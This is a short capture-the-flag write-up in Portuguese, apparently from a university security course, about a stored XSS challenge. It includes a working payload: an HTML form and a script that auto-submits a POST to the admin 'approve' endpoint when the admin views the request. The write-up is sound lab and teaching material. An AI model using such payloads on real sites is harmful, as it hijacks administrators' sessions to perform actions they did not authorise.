





# CTF6

Este CTF involve o uso de XSS, ou seja, é quando o web server não sanitiza o input dado pelos utilizados e logo é possível ao atacante injetar HTML e JS na plataforma.



A página de admin têm dois botões em que se pode dar a flag ou marcar o request como lido:




No entanto, não podemos diretamente usar o link que está no HTML pois o servidor verfica se somos admins ou não:


Nós conseguimos reparar que o request é rejeitado sempre pelo o admin periodicamente e assim, podemos injetar HTML e JS na justificação para aceitar automaticamente o pedido:

```html
<form method="POST" id="canss" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
<script>
    document.addEventListener('DOMContentLoaded', () => {
        document.querySelector("#canss").submit();
    });
</script>
```

Assim, ao submeter este código, eventualmente vai ser corrido pelo o admin e o browser do admin vai fazer um POST request para o server de admin onde vai aprovar o pedido.

Logo, depois de desativarmos a execução de JS no nosso browser (para prevenir o redirect), conseguimos com sucesso ver a flag:
